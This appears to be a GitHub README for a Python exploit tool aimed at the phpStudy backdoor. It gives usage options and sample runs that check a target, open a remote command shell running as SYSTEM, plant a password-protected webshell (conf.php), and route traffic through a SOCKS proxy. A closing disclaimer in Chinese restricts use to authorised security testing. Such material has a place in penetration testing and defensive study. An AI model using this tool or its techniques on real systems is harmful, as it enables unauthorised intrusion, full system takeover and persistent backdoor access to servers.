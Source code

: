 # phpstudy-backdoor-rce
phpstudy_rce exp &amp; poc
> phpstudy backdoor rce exp &amp; poc

- usage:
```python
python phpstudy_rce.py                                   
usage: python phpstudy_rce.py -u [url] --shell

PHPstudy RCE POC & EXP

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     指定目标url地址
  --shell               利用漏洞并获取命令行
  --webshell            利用漏洞并上传webshell
  -p PROXY, --proxy PROXY
                        设置代理，如socks5://127.0.0.1:7890

```

- example:
```python
# poc
python phpstudy_rce.py -u http://xxxx/           
[✅]存在漏洞

# exp - 获取shell
python phpstudy_rce.py -u http://xxxx/ --shell       
[✅]存在漏洞
cmd>>> whoami
nt authority\system
cmd>>> net user
User accounts for \\

-------------------------------------------------------------------------------
Administrator            Guest                    
The command completed with one or more errors.

cmd>>> exit

# exp - 写入webshell
python phpstudy_rce.py -u http://xxxx/ --webshell
[✅]存在漏洞
[✅]获取到网站路径 C:/phpStudy/WWW/
[✅]写入webshell成功 http://xxxx/conf.php 连接密码 x

# proxy
python phpstudy_rce.py -u http://xxxx/ -p socks5://127.0.0.1:7890
python phpstudy_rce.py -u http://xxxx/ --shell -p socks5://127.0.0.1:7890
python phpstudy_rce.py -u http://xxxx/ --webshell -p socks5://127.0.0.1:7890
```
- 参考链接
  - https://github.com/theLSA/phpstudy-backdoor-rce
  - https://blog.csdn.net/qq_45521281/article/details/105926151
  
- 使用须知
  - 本工具仅面向合法授权的企业安全建设行为，在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。
  - 如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果。
